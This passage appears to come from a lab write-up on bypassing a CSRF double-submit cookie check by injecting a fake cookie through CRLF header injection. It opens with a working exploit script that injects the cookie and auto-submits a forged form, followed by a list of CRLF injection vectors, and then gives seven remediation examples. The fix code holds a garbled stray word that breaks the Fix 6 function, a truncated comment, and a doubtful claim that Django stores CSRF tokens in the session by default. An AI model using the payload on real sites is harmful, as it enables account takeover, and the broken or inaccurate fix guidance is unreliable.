    fetch("https://LAB.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None", {
        credentials: 'include'
    }).then(() => {
        document.forms[0].submit();
    });
</script>

Advantage:
└── Explicit sequencing (cookie injection THEN form submit)
└── No onerror timing dependency
└── More readable code
```

---

### **Variation 8: Test Other Endpoints for CRLF**

**Search for injection vectors systematically:**

```HTTP
Test all user-input reflected headers:

1. URL parameters:
   GET /?param=test%0d%0aX-Injected: value

2. Path segments:
   GET /search/test%0d%0aX-Injected:%20value

3. Custom headers:
   GET / HTTP/2
   X-Custom: test%0d%0aX-Injected: value

4. POST body reflected in response:
   POST / HTTP/2
   Body: data=test%0d%0aSet-Cookie:%20csrf=fake

Look for responses that include user input in:
├── Set-Cookie headers
├── Location headers (redirects)
├── Content-Type headers
└── Any custom X- headers
```

---
---

## 🛡️ **How to Fix (Secure Code)**

### **Fix 1: Server-Side Session-Bound Token**

```javascript
// ✅ SECURE - Token tied to user session

// On login: generate and store token in session
app.post('/login', (req, res) => {
    // ... authenticate user ...
    req.session.csrfToken = generateSecureRandom(32);
    res.redirect('/account');
});

// On form render: embed token from session
app.get('/account', (req, res) => {
    res.render('account', {
        csrfToken: req.session.csrfToken  // From session!
    });
});

// On form submit: validate against session
app.post('/change-email', (req, res) => {
    // Compare body token against SESSION token
    if (req.body.csrf !== req.session.csrfToken) {
        return res.status(403).send('Invalid CSRF token');
    }
    // Token matches session-bound value ✓
    updateEmail(req.body.email);
    res.redirect('/account');
});

Why this is secure:
✅ Token stored in server-side session
✅ Cannot be forged by injecting cookies
✅ Attacker cannot know session token value
✅ Cookie injection is irrelevant!
```

---

### **Fix 2: Fix the Double Submit Pattern (Signed Tokens)**

```javascript
// ✅ SECURE - Cryptographically signed double submit

const crypto = require('crypto');
const SECRET_KEY = process.env.CSRF_SECRET;

function generateSignedToken(sessionId) {
    const payload = sessionId + ':' + Date.now();
    const signature = crypto.createHmac('sha256', SECRET_KEY)
                           .update(payload)
                           .digest('hex');
    return payload + '.' + signature;
}

function verifySignedToken(token, sessionId) {
    const parts = token.split('.');
    if (parts.length !== 2) return false;
    
    const [payload, signature] = parts;
    const expectedSig = crypto.createHmac('sha256', SECRET_KEY)
                              .update(payload)
                              .digest('hex');
    
    // Timing-safe comparison
    return crypto.timingSafeEqual(
        Buffer.from(signature),
        Buffer.from(expectedSig)
    );
}

app.post('/change-email', (req, res) => {
    const cookieToken = req.cookies.csrf;
    const bodyToken = req.body.csrf;
    
    // Tokens must match
    if (cookieToken !== bodyToken) {
        return res.status(403).send('Token mismatch');
    }
    
    // Token must be cryptographically valid
    if (!verifySignedToken(bodyToken, req.sessionID)) {
        return res.status(403).send('Invalid token signature');
    }
    
    updateEmail(req.body.email);
    res.redirect('/account');
});

Why this is secure:
✅ Token is cryptographically signed with server secret
✅ Attacker cannot forge valid signature
✅ Even with cookie injection: fake token won't verify
✅ Session ID bound into signature
```

---

### **Fix 3: Filter CRLF from All Reflected Output**

```javascript
// ✅ SECURE - Sanitize headers before setting

function sanitizeHeaderValue(value) {
    // Remove all CR and LF characters
    return value.replace(/[\r\n]/g, '');
}

// Apply to any user input in headers
app.get('/', (req, res) => {
    const searchTerm = req.query.search || '';
    
    // Sanitize before including in header!
    const safeTerm = sanitizeHeaderValue(searchTerm);
    
    res.setHeader('Set-Cookie', `LastSearchTerm=${safeTerm}; HttpOnly; Secure`);
    res.send('Search results...');
});

Why this matters:
✅ Eliminates CRLF injection vector
✅ Breaks the cookie injection chain
✅ Defense in depth (even if token flaw remains)
✅ Prevents header injection broadly
```

---

### **Fix 4: Use SameSite=Strict on Session Cookie**

```HTTP
# ✅ SECURE - Strict SameSite on session cookie

Set-Cookie: session=abc123; SameSite=Strict; Secure; HttpOnly

SameSite=Strict effect:
└── Session cookie NEVER sent in cross-site requests
    └── Exploit page (exploit-server) → Lab (different site)
        └── session cookie NOT included
            └── Request has no valid session
                └── Attack fails! ✓

Why this stops the attack entirely:
└── Without a valid session cookie
    └── Server has no user context
        └── Cannot change any email
            └── CSRF attack is pointless! 🛡️

Best practice:
└── Session cookies: SameSite=Strict ✓
└── CSRF cookie (if used): SameSite=Strict ✓
    └── But then cross-site requests won't include it...
        └── Which is the POINT of SameSite! 🎯
```

---

### **Fix 5: Use HttpOnly on the CSRF Cookie**

```HTTP
# ✅ PARTIALLY SECURE (for double submit pattern)

Set-Cookie: csrf=TOKEN; HttpOnly; Secure; SameSite=Strict

Note on HttpOnly with double submit:
└── HttpOnly means JS cannot read the cookie
└── But browser still sends it in requests
└── For double submit pattern, JS must read it to put in form!
    └── So HttpOnly breaks double submit...
        └── ...which is actually fine! Use session-bound tokens instead.

If you MUST use double submit:
└── csrf cookie must NOT be HttpOnly
    └── JS needs to read it to embed in form
        └── Which means XSS can steal it too ⚠️

Better approach:
└── Just use session-bound tokens (Fix 1) ✓
    └── No cookie needed for CSRF protection at all!
```

---

### **Fix 6: Validate Origin and Referer Headers**

```javascript
// ✅ SECURE - Combined origin/referer validation

function validateRequestOrigin(req) {
    const expectedOrigin = 'https://your-app.com';
    
    const origin = req.headers['origin'];
    const referer = req.headers['referer'];
    
    // Check Origin header first
    if (origin) {
        if (origin !== expectedOrigin) {
            return false;  // Cross-origin request!
        }
        return true;
    }
    
    // Fall back to Referer
    if (referer) {
        const refererOrigin = new URL(referer).origin;
        if (refererOrigin !== expectedOrigin) {
            return false;
        }
        return true;
    }
    
    // Neither header present
    return false;  // Reject ambiguous requests
}

app.post('/change-email', (req, res) => {
    if (!validateRequestOrigin(req simpliciter)) {
        return res.status(403).send('Invalid request origin');
    }
    
    // Also validate CSRF token
    if (!validateCSRFToken(req)) {
        return res.status(403).send('Invalid CSRF token');
    }
    
    updateEmail(req.body.email);
    res.redirect('/account');
});

Benefits:
✅ Cross-origin requests blocked at origin level
✅ Defense in depth with CSRF tokens
✅ Attacker from exploit-server.net rejected
✅ Origin header not injectable by attacker
```

---

### **Fix 7: Framework Built-In CSRF Protection**

```python
# ✅ SECURE - Use proven frameworks

# Django — uses session-bound tokens by default
from django.views.decorators.csrf import csrf_protect

@csrf_protect
def change_email(request):
    if request.method == 'POST':
        # Django validates session-bound token automatically
        # Not vulnerable to double submit bypass!
        request.user.email = request.POST['email']
        request.user.save()
        return redirect('account')

# Django's CSRF implementation:
# ├── Token stored in session server-side
# ├── Token embedded in form via 
# ├── Validated against session on POST
# └── NOT just compared to cookie value! ✓


# Ruby on Rails — protect_from_forgery uses session
class AccountController < ApplicationController
  protect_from_forgery with: :exception
  
  def change_email
    current_user.update(email: params[:email])
    redirect_to account_path
  end
end

# Rails CSRF:
# ├── Token in session[:_csrf_token]
# ├── Embedded in form via <%= csrf_meta_tags %>
# ├── Validated against session value
# └── Cookie injection cannot forge it! ✓


Benefits of using frameworks:
✅ Tested and battle-hardened implementations
✅ Session-bound by default (not just double submit)
✅ Automatic token generation and validation
✅ Not vulnerable to cookie injection bypass
✅ Community-maintained and updated
```

---